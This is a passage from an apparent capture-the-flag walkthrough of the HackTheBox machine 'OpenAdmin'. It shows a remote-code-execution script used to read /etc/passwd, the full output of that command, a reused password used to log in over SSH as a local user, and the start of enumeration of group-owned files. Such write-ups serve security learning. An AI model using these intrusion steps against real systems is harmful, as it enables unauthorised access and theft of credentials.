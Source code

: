     );

    ?>END

We want to try this password against SSH users but we don't know them. We can
just cat `/etc/passwd` to get a list of the system's user.

    :::text
    sh ona_rce.sh 'cat /etc/passwd'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
    mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
    joanna:x:1001:1001:,,,:/home/joanna:/bin/bash

I tried to logged as `joanna` first but the password was `jimmy`'s.

    :::text
    ssh jimmy@10.10.10.171
    jimmy@openadmin:~$ id
    uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)

## Internal

We notice that we are part of the `internal` group. Therefore we look for files
belonging to this specific group and found some "internal" directory containing
three PHP script.
